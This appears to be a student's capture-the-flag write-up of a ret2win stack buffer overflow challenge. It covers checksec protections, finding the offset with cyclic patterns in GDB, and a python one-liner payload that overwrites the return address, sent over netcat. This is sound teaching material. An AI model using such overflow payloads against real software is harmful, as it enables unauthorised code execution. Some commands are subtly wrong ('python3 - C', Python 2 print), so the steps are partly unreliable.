 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

```py
NO PIE - It means the executable file and server have the same coded source file and won't change each time the program loads.
NX ENABLED - We cannot inject our own shellcode to the stack and execute it.
NO STACK CANARY - We can overflow the buffer and there won't be any canaries.
PARTIAL RELRO - read and write availability.
```

---

Use Ghidra and GDB. 

```py
PUTS - It displays some output just like printf.
GETS - It reads some data just like scanf.

Finding the offset : 
1. Generate a cyclic pattern : cyclic 100.
2. The first four bytes in RSP is the offset.
3. Use cyclic -l <four bytes> to find the actual offset.
4. Use the offset to overflow the function and return statement.
```

---


```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

